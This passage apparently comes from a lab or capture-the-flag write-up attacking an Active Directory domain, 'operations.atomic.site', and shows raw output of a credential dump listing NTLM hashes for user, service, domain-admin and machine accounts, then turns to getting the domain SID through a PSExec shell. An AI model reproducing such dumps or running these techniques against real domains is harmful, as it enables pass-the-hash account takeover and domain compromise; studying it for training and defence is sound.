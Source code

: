 ```                          
operations.atomic.site\homi:1115:aad3b435b51404eeaad3b435b51404ee:4d32b988b70b389423886883f666ed66:::

[+] Decrypting hash for user: CN=Iyer Murty,OU=Employee,DC=operations,DC=atomic,DC=site
operations.atomic.site\iyer:1116:aad3b435b51404eeaad3b435b51404ee:493483461831ba82fe193fe01653da6a:::

[+] Decrypting hash for user: CN=Srinivasa Krishnan,OU=Employee,DC=operations,DC=atomic,DC=site
operations.atomic.site\sri:1117:aad3b435b51404eeaad3b435b51404ee:50e3b28275dc32db9f2e82b2e25968e2:::

[+] Decrypting hash for user: CN=Service-DB,OU=Service Accounts,DC=operations,DC=atomic,DC=site
operations.atomic.site\srv-db:1118:aad3b435b51404eeaad3b435b51404ee:c60cc979b81b15f2e23848eac75bef16:::

[+] Decrypting hash for user: CN=service-auto,OU=Service Accounts,DC=operations,DC=atomic,DC=site
operations.atomic.site\srv-auto:1119:aad3b435b51404eeaad3b435b51404ee:ea06afda9cb34106ddaf747108eb1af1:::

[+]] Decrypting hash for user: CN=Admin Domain,OU=Service Accounts,DC=operations,DC=atomic,DC=site
operations.atomic.site\adm_domain:1121:aad3b435b51404eeaad3b435b51404ee:3d15cb1141d579823f8bb08f1f23e316:::

[+] Decrypting hash for user: CN=IIS-admin,OU=Service Accounts,DC=operations,DC=atomic,DC=site
operations.atomic.site\iisadmin:1126:aad3b435b51404eeaad3b435b51404ee:7e44e374b6a9d37380d77970d8e2e2dc:::

[+] Decrypting hash for user: CN=OPS-CHILDDC,OU=Domain Controllers,DC=operations,DC=atomic,DC=site
OPS-CHILDDC$:1000:aad3b435b51404eeaad3b435b51404ee:557a460cc1438fb35870b75383608196:::

[+] Decrypting hash for user: CN=DB-SERVER,CN=Computers,DC=operations,DC=atomic,DC=site
DB-SERVER$:1111:aad3b435b51404eeaad3b435b51404ee:8ebe356223ef0b7b8831ba3349e12513:::

[+] Decrypting hash for user: CN=REPO-SERVER,CN=Computers,DC=operations,DC=atomic,DC=site
OPERATIONS.ATOMIC.SITE\REPO-SERVER$:1112:aad3b435b51404eeaad3b435b51404ee:f3cbb96681af765b402de7b8624f8f5c:::

[+] Decrypting hash for user: CN=AUTOMATION-SERV,CN=Computers,DC=operations,DC=atomic,DC=site
OPERATIONS.ATOMIC.SITE\AUTOMATION-SERV$:1113:aad3b435b51404eeaad3b435b51404ee:4930f9a7ea2e28c8d90d1c6c94725866:::

[+] Decrypting hash for user: CN=SCIENTIST-MACHI,CN=Computers,DC=operations,DC=atomic,DC=site
SCIENTIST-MACHI$:3101:aad3b435b51404eeaad3b435b51404ee:35d811fb8407f03f017e770729475a2c:::

[+] Decrypting hash for user: CN=ATOMIC$,CN=Users,DC=operations,DC=atomic,DC=site
ATOMIC$:1103:aad3b435b51404eeaad3b435b51404ee:6d76fb226a7109795a970e9a8f466833:::

```
<br/>

To obtain the Domain SID, we can use `wmic` in the PSExec shell:
